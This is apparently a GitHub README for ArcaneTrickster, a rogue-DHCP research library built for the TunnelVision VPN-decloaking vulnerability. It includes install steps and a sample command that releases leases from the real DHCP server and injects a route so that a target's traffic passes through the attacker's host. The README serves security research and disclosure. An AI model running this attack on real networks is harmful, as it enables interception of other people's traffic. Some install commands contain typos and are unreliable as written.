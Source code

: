 # ArcaneTrickster
ArcaneTrickster, or "Arcane," is an event-driven research library for low-level networking. It was built as a research tool for TunnelVision (CVE-2024-3661) because we lacked a robust, rogue DHCP server.

Its goals are to:
* Take over as the de-facto DHCP server without relying on race conditions
* Minimize disruption to clients
* Provide flexibility for diverse environments

## Install
```python3
git clone https://github.com/superit23/arcanetrickster.git
python3 -m venv arcaneenv
source ./arcanenev/bin/activate
python3 -m pip install r ./arcanetrickster/requirements.txt
```

## Usage
Currently, Arcane requires some amount of programming skill to use. However, we built an easy TunnelVision PoC in the "tunnelvision.py" script that executes the adjacent host decloaking attack.

Here's an example. Imagine we're on the 10.10.10.0/24 subnet, 10.10.10.1 is the authoritative DHCP server, our current IP is 10.10.10.220, and we want to snoop on traffic to 8.8.8.8. We'd listen on the appropriate interface with `-i`, tell the DHCPReleaser to send releases to 10.10.10.1 with `-s`, and inject a route for 8.8.8.8 to 10.10.10.220 with `-r`.
```python3
python3 ./tunnelvision.py -i enp0s3 -s 10.10.10.1 -r 8.8.8.8/32:10.10.10.220
```
